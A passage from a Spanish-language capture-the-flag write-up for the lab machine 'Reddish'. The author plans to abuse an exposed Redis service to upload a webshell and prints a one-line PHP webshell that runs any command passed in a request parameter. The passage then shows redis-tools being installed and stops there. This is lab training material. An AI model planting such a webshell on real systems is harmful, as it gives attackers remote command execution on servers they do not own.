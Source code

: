 ```abap
```

### El servicio redis ya lo habíamos explotado en otra máquina llamada Postman  que tenemos el writeup en este link [https://angussmoody.github.io/postman.html](https://angussmoody.github.io/postman.html)  así que vamos a tomar el concepto del articulo  [https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html) pero en vez de crearnos una llave, vamos a subirnos una webshell

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #cat cmd.php 
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: cmd.php
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   3   │  ?>
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### Lo primero que debemos realizar es instalar redis-tools

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #apt install redis-tools
Leyendo lista de paquetes... Hecho
Creando árbol de dependencias... Hecho
Leyendo la información de estado... Hecho
```

### Viendo el código fuente, nos encontramos con una Url
